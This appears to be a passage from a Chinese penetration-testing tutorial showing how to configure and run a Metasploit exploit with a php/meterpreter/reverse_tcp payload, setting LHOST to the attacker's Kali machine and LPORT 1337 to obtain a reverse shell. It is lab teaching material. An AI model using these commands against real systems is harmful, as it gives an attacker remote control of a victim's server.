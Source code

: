 图 23：利用可用的目标

1.  现在，我们将配置利用。设置以下选项：

```
set Target 1
set LHOST 192.168.34.153
set LPORT 1337
set payload php/meterpreter/reverse_tcp
```

请记住，`LHOST`是您的 Kali 虚拟机 IP，`LPORT`可以是任意随机端口号。我们使用的有效载荷是反向 TCP `meterpreter` shell。您可以使用`show options`命令确认您的选项：

![](img/fc3fd8c5-35e0-4610-8ab1-2aa9c0c394a3.png)

图 24：配置利用选项

1.  配置这些选项后，使用`run`命令运行利用。注意输出。突出显示的代码是我们将在命令执行攻击中使用的，用于将反向 shell 生成到我们的攻击系统。复制该代码，并且不要关闭终端窗口或退出 Metasploit：

![](img/b4cbfdb6-84d4-4849-b5f9-029fb75bf700.png)
